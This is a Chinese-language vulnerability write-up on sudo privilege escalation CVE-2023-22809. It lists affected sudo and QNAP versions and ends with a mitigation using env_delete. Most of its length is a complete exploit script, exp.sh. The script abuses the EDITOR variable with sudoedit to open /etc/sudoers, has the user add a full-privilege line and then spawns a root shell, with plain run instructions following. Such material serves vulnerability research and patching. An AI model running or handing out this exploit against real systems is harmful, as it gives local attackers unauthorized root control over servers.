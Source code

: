 # 

# Linux Sudo权限提升漏洞 CVE-2023-22809

## 漏洞描述

Sudo 存在权限提升漏洞，攻击者可过特定的 payload 获取服务器 root 权限。

Sudo 中的 sudoedit 对处理用户提供的环境变量（如`SUDO_EDITOR`、`VISUAL`和`EDITOR`）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过 sudoers 策略的 " –" 参数时，拥有sudoedit 访问权限的本地攻击者可通过将任意条目附加到要处理的文件列表中，最终在目标系统上实现权限提升。该漏洞还影响部分 QNAP 操作系统：QTS、QuTS hero、QuTScloud、QVP（QVR Pro 设备）。

## 漏洞影响

```
Sudo:
1.8.0~1.9.12p1 均受影响

QTS 与 QuTS hero：
QTS < 5.0.1.2346 build 20230322
QuTS < hero h5.0.1.2348 build 20230324
```

## 漏洞复现

exp.sh：

```
#!/usr/bin/env bash
#
# Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation
# 
# Exploit Author: n3m1.sys
# CVE: CVE-2023-22809
# Date: 2023/01/21
# Vendor Homepage: https://www.sudo.ws/
# Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
# Version: 1.8.0 to 1.9.12p1
# Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9
#
# Running this exploit on a vulnerable system allows a localiattacker to gain 
# a root shell on the machine.
#
# The exploit checks if the current user has privileges to run sudoedit or 
# sudo -e on a file as root. If so it will open the sudoers file for the
# attacker to add a line to gain privileges on all the files and get a root 
# shell.

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi

EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0
```

查看本地 sudo 版本：

```
sudo -V
```

执行文件：

```
./exp.sh
```

## 修复建议

使用 sudoedit 时，将受影响的环境变量添加到 env_delete 拒绝列表中，例如：

```
Defaults!SUDOEDIT env_delete+="SUDO_EDITOR VISUAL EDITOR"
Cmnd_Alias SUDOEDIT = sudoedit /etc/custom/service.conf
user ALL=(ALL:ALL) SUDOEDIT
```


